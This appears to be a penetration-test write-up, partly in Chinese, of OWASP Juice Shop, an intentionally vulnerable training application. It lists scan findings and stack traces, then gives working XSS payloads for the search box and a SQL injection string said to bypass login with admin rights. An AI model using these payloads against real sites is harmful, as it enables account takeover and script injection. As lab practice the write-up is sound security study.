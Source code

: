 # Juice Shop Pentest Writeup

## 识别所用技术

nodejs
## Foundings:
- HTTP Methods Allowed (per directory)

HTTP methods ACL CHECKOUT COPY DELETE GET HEAD LOCK MERGE MKACTIVITY MKCOL MOVE NOTIFY OPTIONS PATCH POST PROPFIND PROPPATCH PUT REPORT SEARCH SUBSCRIBE TRACE UNLOCK UNSUBSCRIBE are allowed on : 
    /
    /assets
    /assets/assets

- Web Server robots.txt Information Disclosure
robots.txt 中含有路径：/ftp


- External URLs
http://cdnjs.cloudflare.com/ajax/libs/cookieconsent2/3.1.0/cookieconsent.min.css
 
- INFO Web Server No 404 Error Code Check
  /
    /assets
    /assets/assets
- Missing or Permissive Content-Security-Policy frame-ancestors HTTP Response Header

The CSP frame-ancestors header has been proposed by the W3C Web Application Security Working Group as a way to mitigate cross-site scripting and clickjacking attacks.
The following pages do not set a Content-Security-Policy frame-ancestors response header or set a permissive policy:

  - http://localhost:3000/
  - http://localhost:3000/assets/
  - http://localhost:3000/assets/assets

- Web Application Sitemap

- 敏感信息泄露
http://10.10.10.153:3000/main-es2018.js 中可见路径 /rest/admin，浏览该路径可见下列信息。暴露了所用中间件版本


```

OWASP Juice Shop (Express ^4.17.1)
500 Error: Unexpected path: /rest/admin

       at /juice-shop/routes/angular.js:14:12
       at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
       at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:317:13)
       at /juice-shop/node_modules/express/lib/router/index.js:284:7
       at Function.process_params (/juice-shop/node_modules/express/lib/router/index.js:335:12)
       at next (/juice-shop/node_modules/express/lib/router/index.js:275:10)
       at /juice-shop/routes/verify.js:143:3
       at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
       at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:317:13)
       at /juice-shop/node_modules/express/lib/router/index.js:284:7
       at Function.process_params (/juice-shop/node_modules/express/lib/router/index.js:335:12)
       at next (/juice-shop/node_modules/express/lib/router/index.js:275:10)
       at /juice-shop/routes/verify.js:74:3
       at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
       at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:317:13)
       at /juice-shop/node_modules/express/lib/router/index.js:284:7
       at Function.process_params (/juice-shop/node_modules/express/lib/router/index.js:335:12)
       at next (/juice-shop/node_modules/express/lib/router/index.js:275:10)
       at logger (/juice-shop/node_modules/morgan/index.js:144:5)
       at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
       at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:317:13)
       at /juice-shop/node_modules/express/lib/router/index.js:284:7
```

CVE-2014-6393 express: cross-site scripting via content-type header
The Express web framework before 3.11 and 4.x before 4.5 for Node.js does not provide a charset field in HTTP Content-Type headers in 400 level responses, which might allow remote attackers to conduct cross-site scripting (XSS) attacks via characters in a non-standard encoding like UTF-7..


http://10.10.10.153:3000/api/Users

```
OWASP Juice Shop (Express ^4.17.1)
401 UnauthorizedError: No Authorization header was found
```

http://10.10.10.153:3000/api/

OWASP Juice Shop (Express ^4.17.1)
500 Error: Unexpected path: /api

       at /juice-shop/routes/angular.js:14:12
       at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
       at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:317:13)
       at /juice-shop/node_modules/express/lib/router/index.js:284:7
       at Function.process_params (/juice-shop/node_modules/express/lib/router/index.js:335:12)
       at next (/juice-shop/node_modules/express/lib/router/index.js:275:10)
       at /juice-shop/routes/verify.js:143:3
       at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
       at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:317:13)
       at /juice-shop/node_modules/express/lib/router/index.js:284:7
       at Function.process_params (/juice-shop/node_modules/express/lib/router/index.js:335:12)
       at next (/juice-shop/node_modules/express/lib/router/index.js:275:10)
       at /juice-shop/routes/verify.js:74:3
       at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
       at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:317:13)
       at /juice-shop/node_modules/express/lib/router/index.js:284:7
       at Function.process_params (/juice-shop/node_modules/express/lib/router/index.js:335:12)
       at next (/juice-shop/node_modules/express/lib/router/index.js:275:10)
       at logger (/juice-shop/node_modules/morgan/index.js:144:5)
       at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
       at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:317:13)
       at /juice-shop/node_modules/express/lib/router/index.js:284:7


### search input XSS漏洞

威胁级别：高危

location：
- 首页search输入框

payload：

`<img src=# onerror="prompt(1)"`

```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

```
<iframe src="javascript:alert(`xss`)">.
```

### login 用户名input sql注入漏洞

威胁级别：高危

位置

payload：
```
1' or '1'='1' --'1
```

绕过登录后，获得管理员权限